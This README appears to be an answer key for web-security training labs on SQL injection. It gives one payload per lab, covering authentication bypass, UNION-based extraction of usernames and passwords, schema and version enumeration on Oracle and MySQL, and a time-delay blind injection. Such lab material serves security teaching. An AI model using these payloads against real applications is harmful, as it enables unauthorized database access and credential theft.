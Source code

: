 # Burpsuite Lab Answers
## SQL injection 
### SQL injection vulnerability in WHERE clause allowing retrieval of hidden data
#### Solution: '+OR+1=1--
![](Images/SQL-1.png)

--------------------------------

### SQL injection vulnerability allowing login bypass
#### Solution: administrator'--
![](Images/SQL-2.png)

--------------------------------

### SQL injection UNION attack, determining the number of columns returned by the query
#### Solution: 'UNION SELECT NULL, NULL, NULL--
![](Images/SQL-3.png)

--------------------------------

### SQL injection UNION attack, finding a column containing text
#### Solution: 'UNION SELECT NULL,'HELLO BUDDY',NULL--
![](Images/SQL-4.png)

--------------------------------

### SQL injection UNION attack, retrieving data from other tables
#### Solution: 'UNION SELECT username, password FROM users--
![](Images/SQL-5a.png)
![](Images/SQL-5b.png)

--------------------------------

### SQL injection UNION attack, retrieving multiple values in a single column
#### Solution: 'UNION SELECT NULL,username||'~'||password FROM users--
![](Images/SQL-6.png)

--------------------------------

### SQL injection attack, querying the database type and version on Oracle
#### Solution: 'UNION SELECT BANNER, NULL FROM v$version--
![](Images/SQL-7.png)

--------------------------------

### SQL injection attack, querying the database type and version on MySQL and Microsoft
#### Solution: 'UNION SELECT @@version, NULL#
![](Images/SQL-8.png)

--------------------------------

### SQL injection attack, listing the database contents on non-Oracle databases
#### Solution: Step-1 : '+UNION+SELECT+table_name,+NULL+FROM+information_schema.tables--
![](Images/SQL-9a.png)
#### Solution: Step-2 : '+UNION+SELECT+column_name,+NULL+FROM+information_schema.columns+WHERE+table_name='users_qrktla'--
![](Images/SQL-9b.png)
#### Solution: Step-3 : '+UNION+SELECT+username_gwlqzm,+password_ikxmsh+FROM+users_qrktla-
![](Images/SQL-9c.png)

--------------------------------

### SQL injection attack, listing the database contents on Oracle
#### Solution: Step-1 : '+UNION+SELECT+table_name,NULL+FROM+all_tables--
![](Images/SQL-10a.png)
#### Solution: Step-2 : '+UNION+SELECT+column_name,NULL+FROM+all_tab_columns+WHERE+table_name='USERS_KNHGDL'--
![](Images/SQL-10b.png)
#### Solution: Step-3 : '+UNION+SELECT+USERNAME_XEIEJW,+PASSWORD_UHIKUI+FROM+USERS_KNHGDL--
![](Images/SQL-10c.png)

--------------------------------

### Blind SQL injection with time delays
#### Solution: TrackingId=x'||pg_sleep(10)--
![](Images/SQL-13a.png)
